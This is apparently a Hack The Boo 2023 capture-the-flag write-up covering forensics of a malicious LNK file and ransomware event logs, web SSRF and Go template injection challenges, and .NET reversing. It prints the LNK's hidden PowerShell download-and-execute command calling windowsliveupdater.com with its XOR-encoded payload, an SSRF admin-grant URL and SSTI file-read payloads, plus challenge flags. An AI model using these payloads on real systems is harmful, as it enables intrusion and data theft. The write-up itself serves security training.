




#ctf #hack-the-boo-2023 #forensics #windows-lnk #pcap #wireshark #powershell #event-logs #windows #chainsaw #hayabusa #timeline-explorer #web #Source-Code-Analysis #ssrf #broken-access-control #ssti #go-lang #Reversing #detect-it-easy #dotnet-framework #dnspy #Decompilation #csharp #xonsh #tmux-send-keys
# Forensics
## Trick or Treat

### Analyze malicious windows lnk file

```powershell
.\LECmd.exe -f "D:\kali-share\ctf\hacktheboo-2023\Trick or Treat\trick_or_treat\trick_or_treat.lnk"
```


```powershell
Name: Trick or treat
Working Directory: C:
Arguments: /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden "$asvods ='';$UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/15.15063','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko');$RandomUserAgent = $UserAgents | Get-Random;$WebClient = New-Object System.Net.WebClient;$WebClient.Headers.Add('User-Agent', $RandomUserAgent);$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com');$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos));Invoke-Command -ScriptBlock ([Scriptblock]::Create($asvods));
Icon Location: C:\Windows\System32\shell32.dll
```

### Extract payload from PCAP


### Recover powershell command

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023]
└─$ pwsh
PowerShell 7.3.8

┌──(bravosec㉿fsociety)-[/home/kali/ctf/hacktheboo-2023]
└─PS> $boddmei='7b68737e697472733d596f726d5f726530486d71727c793d661717465e70797178695f74737974737a353440176d7c6f7c703d35173d3d3d3d17464d7c6f7c707869786f3d35507c73797c69726f643d203d39496f6878313d4b7c7168785b6f72704d746d78717473783d203d39496f6878344017465c71747c6e353f7b3f344017466e696f74737a40394e72686f7e785b7471784d7c697517343d1739596f726d5f72655c7e7e786e6e49727678733d203d3f55495f666e2964424d68706d762c2c2c2c2c2c2c733c3c3c603f17397268696d68695b7471783d203d4e6d717469304d7c69753d394e72686f7e785b7471784d7c69753d3071787c7b1739497c6f7a78695b7471784d7c6975203f32397268696d68695b7471783f17397c6f7a3d203d3a663d3f6d7c69753f273d3f3a3d363d39497c6f7a78695b7471784d7c69753d363d3a3f313d3f707279783f273d3f7c79793f313d3f7c6869726f78737c70783f273d696f6878313d3f706869783f273d7b7c716e783d603a17397c686975726f74677c697472733d203d3f5f787c6f786f3d3f3d363d39596f726d5f72655c7e7e786e6e4972767873173975787c79786f6e3d203d53786a30527f77787e693d3f4e646e697870335e727171787e697472736e335a7873786f747e3359747e697472737c6f6446464e696f74737a4031464e696f74737a40403f173975787c79786f6e335c7979353f5c686975726f74677c697472733f313d397c686975726f74677c6974727334173975787c79786f6e335c7979353f596f726d7f7265305c4d54305c6f7a3f313d397c6f7a34173975787c79786f6e335c7979353f5e7273697873693049646d783f313d3a7c6d6d71747e7c6974727332727e697869306e696f787c703a341754736b727678304f786e695078697572793d30486f743d7569696d6e2732327e72736978736933796f726d7f72657c6d74337e7270322f327b7471786e32686d71727c793d305078697572793d4d726e693d3054735b7471783d394e72686f7e785b7471784d7c69753d3055787c79786f6e3d3975787c79786f6e176017176a75747178352c346617173d3d5c79793049646d783d305c6e6e78707f7164537c70783d4e646e697870334a747379726a6e335b726f706e314e646e69787033596f7c6a74737a17173d3d396e7e6f7878736e3d203d464a747379726a6e335b726f706e334e7e6f7878734027275c71714e7e6f7878736e17173d3d3969726d3d3d3d3d203d35396e7e6f7878736e335f726873796e3349726d3d3d3d3d613d50787c6e686f7830527f77787e693d3050747374706870343350747374706870173d3d3971787b693d3d3d203d35396e7e6f7878736e335f726873796e3351787b693d3d3d613d50787c6e686f7830527f77787e693d3050747374706870343350747374706870173d3d396a747969753d3d203d35396e7e6f7878736e335f726873796e334f747a75693d3d613d50787c6e686f7830527f77787e693d30507c65747068703433507c6574706870173d3d397578747a75693d203d35396e7e6f7878736e335f726873796e335f72696972703d613d50787c6e686f7830527f77787e693d30507c65747068703433507c657470687017173d3d397f726873796e3d3d3d203d46596f7c6a74737a334f787e697c737a71784027275b6f727051494f5f353971787b69313d3969726d313d396a74796975313d397578747a756934173d3d397f706d3d3d3d3d3d3d203d53786a30527f77787e693d3049646d78537c70783d4e646e69787033596f7c6a74737a335f7469707c6d3d305c6f7a687078736951746e693d354674736940397f726873796e336a7479697534313d354674736940397f726873796e337578747a756934173d3d397a6f7c6d75747e6e3d203d46596f7c6a74737a335a6f7c6d75747e6e4027275b6f727054707c7a7835397f706d3417173d3d397a6f7c6d75747e6e335e726d645b6f72704e7e6f78787335397f726873796e3351727e7c69747273313d46596f7c6a74737a334d7274736940272758706d6964313d397f726873796e336e7467783417173d3d397f706d334e7c6b78353f3978736b27484e584f4d4f525b545158415c6d6d597c697c4151727e7c71414978706d413978736b277e72706d6869786f737c7078305e7c6d69686f78336d737a3f34173d3d397a6f7c6d75747e6e3359746e6d726e783534173d3d397f706d3359746e6d726e783534173d3d173d3d6e697c6f69306e7178786d3d304e787e7273796e3d2c28173d3f3978736b27484e584f4d4f525b545158415c6d6d597c697c4151727e7c71414978706d413978736b277e72706d6869786f737c7078305e7c6d69686f78336d737a3f3d613d596f726d5f726530486d71727c791760' ;$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar}

┌──(bravosec㉿fsociety)-[/home/kali/ctf/hacktheboo-2023]
└─PS> $vurnwos
```



> `HTB{s4y_Pumpk1111111n!!!}`

## Valhalloween

### Chainsaw - Insight

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/chainsaw]
└─$ ./chainsaw_x86_64-unknown-linux-gnu hunt '/home/kali/ctf/hacktheboo-2023/Valhalloween/Logs' -s sigma --mapping mappings/sigma-event-logs-all.yml -r rules/ --level critical
```




### hayabusa - Timeline

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/hayabusa-2.8.0]
└─$ ./hayabusa-2.8.0-lin-gnu csv-timeline -d ~/ctf/hacktheboo-2023/Valhalloween/Logs
```


Export to CSV to analyze with **[timeline explorer](https://ericzimmerman.github.io/#!index.md)**

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/hayabusa-2.8.0]
└─$ ./hayabusa-2.8.0-lin-gnu csv-timeline -d ~/ctf/hacktheboo-2023/Valhalloween/Logs -o ~/ctf/hacktheboo-2023/Valhalloween/result.csv -p super-verbose
```
### Q1

```bash
What are the IP address and port of the server from which the malicious actors downloaded the ransomware? (for example: 98.76.54.32:443)
> 103.162.14.116:8888
[+] Correct!
```


### Q2

```bash
According to the sysmon logs, what is the MD5 hash of the ransomware? (for example: 6ab0e507bcc2fad463959aa8be2d782f)

> B94F3FF666D9781CB69088658CD53772
[+] Correct!
```

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/hayabusa-2.8.0]
└─$ ./hayabusa-2.8.0-lin-gnu csv-timeline -r rules/hayabusa/sysmon -d /media/sf_kali-share/ctf/hacktheboo-2023/Valhalloween/Logs
```

Search `mscalc.exe` (From **hayabusa** timeline result)


### Q3

```bash
Based on the hash found, determine the family label of the ransomware in the wild from online reports such as Virus Total, Hybrid Analysis, etc. (for example: wannacry)
> lokilocker
[+] Correct!
```


> https://www.virustotal.com/gui/file/7c890018d49fe085cd8b78efd1f921cc01936c190284a50e3c2a0b36917c9e10


### Q4

```bash
What is the name of the task scheduled by the ransomware? (for example: WindowsUpdater)
> Loki
[+] Correct!
```


### Q5

```bash
What are the parent process name and ID of the ransomware process? (for example: svchost.exe_4953)

> powershell.exe_3856
[+] Correct!
```

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/chainsaw]
└─$ ./chainsaw_x86_64-unknown-linux-gnu search /media/sf_kali-share/ctf/hacktheboo-2023/Valhalloween/Logs -e 'mscalc.exe'
```

**Tmux** vi search down - `CTRL + a + ENTER -> /` for `mscalc.exe`


### Q6

```bash
Following the PPID, provide the file path of the initial stage in the infection chain. (for example: D:\Data\KCorp\FirstStage.pdf)
> C:\Users\HoaGay\Documents\Subjects\Unexpe.docx
[+] Correct!
```

Search up parent processes util reaching the source

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/chainsaw]
└─$ ./chainsaw_x86_64-unknown-linux-gnu search /media/sf_kali-share/ctf/hacktheboo-2023/Valhalloween/Logs -t 'Event.EventData.ProcessId: =3856'
```


```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/chainsaw]
└─$ ./chainsaw_x86_64-unknown-linux-gnu search /media/sf_kali-share/ctf/hacktheboo-2023/Valhalloween/Logs -t 'Event.EventData.ProcessId: =8776'
```


### Q7

```bash
When was the first file in the infection chain opened (in UTC)? (for example: 1975-04-30_12:34:56)
> 2023-09-20_03:03:20
```

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/chainsaw]
└─$ ./chainsaw_x86_64-unknown-linux-gnu search /media/sf_kali-share/ctf/hacktheboo-2023/Valhalloween/Logs -e 'Unexpe.docx'
```


# Web
## HauntMart


### Source code analyze

Two paths, `/` and `/api`

> `challenge\application\main.py`


Admins can view flag

> `challenge\application\config.py`


> `challenge\application\blueprints\routes.py`


> `challenge\application\templates\index.html`


> `challenge\application\util.py`

- `downloadManual()` will send request to user controlled URL
- Checks if URL is safe with a bad filter list


> `challenge\application\blueprints\routes.py`

`addAdmin()` at `/api/addAdmin` can grant user admin role by `username` parameter in `GET` request,

but checks if request comes from localhost


### SSRF with weak filter bypass + broken access control

Registered and login with user `a`

> http://83.136.254.234:40830/home


> http://83.136.254.234:40830/product

Let it send request to :

```
http://2130706433:1337/api/addAdmin?username=a
```


Logout and login again, the flag is there : ))


## Ghostly Templates

### SSTI (Go Lang)


Since `GetServerInfo()` doesn't have `p RequestData`, it is not able to render in template

```go
func GetServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}
```

Use `OutFileContents()` instead to read the flag

```go
func (p RequestData) OutFileContents(filePath string) string {
	data, err := os.ReadFile(filePath)
	if err != nil {
		return err.Error()
	}
	return string(data)
}
```

> `exp.tpl`

```go
{{ .OutFileContents "/etc/passwd" }}
```

```bash
mkdir /tmp/www
cd /tmp/www
python3 -m http.server 80
```


```go
{{ .OutFileContents "/flag.txt" }}
```


> `HTB{t3mpl14t35_c4n_c4us3_p41n__4nd_f1l35_1nclud3d!}`
# Reversing

## SpellBrewery

### Information gathering

```bash
┌──(bravosec㉿fsociety)-[/media/…/ctf/hacktheboo-2023/SpellBrewery/rev_spellbrewery]
└─$ diec *
/media/sf_kali-share/ctf/hacktheboo-2023/SpellBrewery/rev_spellbrewery/SpellBrewery:
ELF64
    Library: GLIBC(2.4)[DYN AMD64-64]
    Compiler: gcc(3.X)[DYN AMD64-64]

/media/sf_kali-share/ctf/hacktheboo-2023/SpellBrewery/rev_spellbrewery/SpellBrewery.deps.json:
Binary
    Format: plain text[LF]

/media/sf_kali-share/ctf/hacktheboo-2023/SpellBrewery/rev_spellbrewery/SpellBrewery.dll:
PE32
    Library: .NET(v4.0.30319)[-]
    Linker: Microsoft Linker(48.0)[Console32,console]

/media/sf_kali-share/ctf/hacktheboo-2023/SpellBrewery/rev_spellbrewery/SpellBrewery.runtimeconfig.json:
Binary
    Format: plain text[LF]
```

Install dotnet core 7 runtime first to run it (Tried a lot of methods, this took me longer than patching the DLL XD)

```bash
sudo apt install dotnet-runtime-7.0
```

```bash
┌──(bravosec㉿fsociety)-[/media/…/ctf/hacktheboo-2023/SpellBrewery/rev_spellbrewery]
└─$ ./SpellBrewery
1. List Ingredients
2. Display Current Recipe
3. Add Ingredient
4. Brew Spell
5. Clear Recipe
6. Quit
>
```

It does not load `SpellBrewery.dll`, but seems like they are the same program

```bash
┌──(bravosec㉿fsociety)-[/media/…/ctf/hacktheboo-2023/SpellBrewery/rev_spellbrewery]
└─$ ltrace ./SpellBrewery
```


```bash
┌──(bravosec㉿fsociety)-[/media/…/ctf/hacktheboo-2023/SpellBrewery/rev_spellbrewery]
└─$ dotnet SpellBrewery.dll
1. List Ingredients
2. Display Current Recipe
3. Add Ingredient
4. Brew Spell
5. Clear Recipe
6. Quit
>
```
### Decompile and analyze SpellBrewery.dll

Use [DNSpy](https://github.com/dnSpyEx/dnSpy)


Once we submit the correct receipt, it will do some algorithm to them and give us the flag


The correct receipt is defined at bottom


### Extract correct recipes

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023]
└─$ xonsh
bravosec@fsociety ~/ctf/hacktheboo-2023 @
```

```bash
data = '''<CORRET_ARRAY>'''
import re
re.findall(r'"(.*?)"', data))
```


### Send correct recipes to get the flag

Utilize **xonsh** and **tmux** to automate receipt submission

```bash
┌──(bravosec㉿fsociety)-[/media/…/ctf/hacktheboo-2023/SpellBrewery/rev_spellbrewery]
└─$ dotnet SpellBrewery.dll
```

```python
for r in re.findall(r'"(.*?)"', data):
    $(tmux send-keys -t 2 3 ENTER @(r) ENTER)
```


> `HTB{y0ur3_4_tru3_p0t10n_m45st3r_n0w}`